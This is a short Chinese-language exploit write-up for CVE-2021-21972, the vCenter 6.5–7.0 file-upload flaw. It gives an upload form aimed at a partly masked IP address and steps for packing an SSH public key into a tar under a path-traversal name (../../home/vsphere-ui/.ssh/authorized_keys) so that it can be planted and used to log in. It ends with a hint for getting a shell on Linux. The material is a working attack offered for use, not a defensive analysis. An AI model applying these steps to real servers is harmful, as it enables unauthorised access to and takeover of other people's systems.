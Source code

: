 # CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞

## 参考
http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/?continueFlag=f498c1c266566c7838d9ab5bef68118c
https://swarm.ptsecurity.com/unauth-rce-vmware/
## 漏洞细节

漏洞为任意文件上传
存在问题的接口为/ui/vropspluginui/rest/services/uploadova
- 构造exp.html

```
<html>
<head>
<title>CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞上传利用</title>
</head>
<body>
    <form action="https://221.11.xx.211/ui/vropspluginui/rest/services/uploadova" method="post" enctype="multipart/form-data">
        test：<input type="text" name="name" value="不用输入"><br>
        选择你的exp html：<input type="file" name="uploadFile"><br>
        <input type="submit" value="提交">
    </form>
<pre>
利用了接口：/ui/vropspluginui/rest/services/uploadova，上传自己的SSH生成的公钥，使用SSH进行登录。

</pre>
</body>
</html>
```
- 构造tar

```
ssh-keygen -t rsa
cp /Users/root/.ssh/id_rsa.pub authorized_keys

使用7zip 压缩authorized_keys为 authorized_keys.tar,然后编辑压缩包，修改文件authorized_keys名字为：../../home/vsphere-ui/.ssh/authorized_keys
然后保存，关闭7zip
```
- 上传

使用html上传tar即可，然后使用ssh 221.11.xx.211 进行登录

Linux 下getshell, 需要Fuzz 一下 exp.txt的包,设置/global/42/0/h5ngc.war中的42从 10 - 110即可


```


